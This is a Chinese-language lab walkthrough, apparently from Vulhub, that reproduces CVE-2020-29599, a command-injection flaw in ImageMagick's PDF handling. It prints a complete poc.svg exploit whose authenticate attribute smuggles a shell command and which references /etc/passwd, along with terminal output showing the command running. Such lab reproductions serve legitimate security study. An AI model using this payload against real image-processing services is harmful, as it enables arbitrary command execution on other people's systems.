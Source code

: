 # Imagemagick PDF密码位置命令注入漏洞 CVE-2020-29599

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 环境搭建

Vulhub直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker-compose run im bash
```

## 漏洞复现

进入`/tmp`目录，对[poc.svg](https://github.com/vulhub/vulhub/blob/master/imagemagick/CVE-2020-29599/poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp
```

查看poc.svg文件内容：

```
root@a1b29c85d417:/tmp# strings poc.svg
```

poc.svg的内容如下：

```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

此时命令`echo $(id)> ./0wned`已执行成功：

![image-20220224131023589](./images/202202241310727.png)



